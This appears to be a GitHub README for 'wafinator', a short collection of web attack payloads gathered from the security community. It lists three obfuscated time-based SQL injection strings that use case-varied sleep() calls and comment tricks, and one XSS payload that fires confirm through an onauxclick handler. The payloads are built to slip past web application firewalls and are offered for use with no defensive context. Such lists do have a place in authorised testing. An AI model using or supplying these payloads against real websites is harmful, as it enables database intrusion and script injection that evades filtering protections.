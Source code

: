 # wafinator
Collection of payloads from everywhere. The maintainer is glad to *sec community for sharing their paylaods.


\-SleEp(0x2);\-\-<br><br>
\-slEEp("5A");\-\-<br><br>
\-SleEP/\*(\*/(5);\-\-<br><br>
J<d3v/onauxclick=[2].some(confirm)>O<br><br>
